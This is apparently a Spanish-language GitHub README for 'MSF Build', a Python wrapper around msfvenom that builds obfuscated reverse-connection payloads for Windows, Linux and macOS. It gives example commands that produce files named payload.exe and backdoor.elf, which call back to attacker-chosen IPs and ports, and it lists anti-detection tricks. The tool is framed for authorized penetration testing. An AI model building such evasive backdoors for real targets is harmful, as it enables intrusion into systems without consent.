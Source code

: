 # 🛠️ MSF Build - Advanced Payload Builder

*Herramienta profesional para generar payloads ofuscados con Msfvenom utilizando el codificador Shikata Ga Nai*

![msfbuild](https://github.com/user-attachments/assets/d617ca7f-50f8-46b3-be4b-6ed0567277c0)

## 📜 Descripción
**MSF Build** es una herramienta CLI para generar payloads ofuscados multiplataforma con medidas anti-detección integradas. Utiliza `msfvenom` para crear los payloads y está diseñado para pruebas de penetración éticas.

## ✨ Características
- ✅ Soporte para **Windows**, **Linux** y **macOS**
- 🔄 Ofuscación con **Shikata Ga Nai** y múltiples interaciones.
- 🛡️ Medidas básicas anti-detección (modificación de metadatos)
- 🎨 Interfaz colorida con animaciones
- 🧩 Generación de payloads en múltiples formatos: `exe`, `elf`, `macho`, `python`

## 🚀 Instalación

### Requisitos:
- Python 3.6+
- Metasploit Framework (`msfvenom`)
- Terminal con soporte ANSI

```
# Instalar dependencias
pip install colorama
sudo apt install metasploit-framework  # Para sistemas Debian/Ubuntu

# Clonar repositorio
git clone https://github.com/afsh4ck/MSF-Build.git
cd MSF-Build
```

## 🖥️ Uso

Menú de Ayuda:
```
python3 msfbuild.py -h                                                                                  
    __  ___ _____  ______   ____          _  __     __
   /  |/  // ___/ / ____/  / __ ) __  __ (_)/ /____/ /
  / /|_/ / \__ \ / /_     / __  |/ / / // // // __  / 
 / /  / / ___/ // __/    / /_/ // /_/ // // // /_/ /  
/_/  /_/ /____//_/      /_____/ \__,_//_//_/ \__,_/   
-------------------------------------------------------
     Msfvenom advanced obfuscated payload generator    
-------------------------------------------------------
                 Developed by: @afsh4ck                

usage: python3 msfbuild.py --os <OS> --arch <ARCH> --type <TYPE> --lhost <IP> --lport <PORT> -o <OUTPUT> [-i ITERATIONS]

options:
  --os {windows,linux,macos}               Sistema operativo objetivo
  --arch {x86,x64}                         Arquitectura objetivo
  --type {exe,elf,macho,python}            Tipo de archivo de salida
  --lhost LHOST                            Dirección IP para conexión reversa
  --lport LPORT                            Puerto para conexión reversa
  -o OUTPUT, --output OUTPUT               Nombre del archivo de salida
  -i ITERATIONS, --iterations ITERATIONS   Iteraciones de ofuscación (solo x86)
  -h, --help                               Mostrar este mensaje de ayuda
```

## 💻 Ejemplos

### Generar payload para Windows x86:
```
python3 msfbuild.py \
  --os windows \
  --arch x86 \
  --type exe \
  --lhost 192.168.1.100 \
  --lport 4444 \
  -o payload.exe \
  -i 10
```
### Generar payload para Linux x64:
```
python3 msfbuild.py \
  --os linux \
  --arch x64 \
  --type elf \
  --lhost 10.0.0.5 \
  --lport 8080 \
  -o backdoor.elf
```
### Generar payload para macOS:
```
python3 msfbuild.py \
  --os macos \
  --arch x64 \
  --type macho \
  --lhost 172.16.23.45 \
  --lport 6500 \
  -o mac_payload
```

## 🛡️ Medidas de Seguridad

- Modificación de timestamps en archivos .exe
- Advertencias automáticas para configuraciones incompatibles
- Validación estricta de parámetros de entrada

## ⚠️ Disclaimer

Este software está diseñado exclusivamente para:
- Pruebas de seguridad autorizadas
- Investigación en entornos controlados
- Educación en ciberseguridad

El uso malicioso de esta herramienta es estrictamente prohibido. 
El autor no se hace responsable del uso indebido.

## 🤝 Contribuir
- Haz fork del proyecto
- Crea una rama (git checkout -b feature/nueva-funcionalidad)
- Haz commit de tus cambios (git commit -am 'Añadir funcionalidad X')
- Push a la rama (git push origin feature/nueva-funcionalidad)
- Abre un Pull Request

### Creado con ❤️ por @afsh4ck 
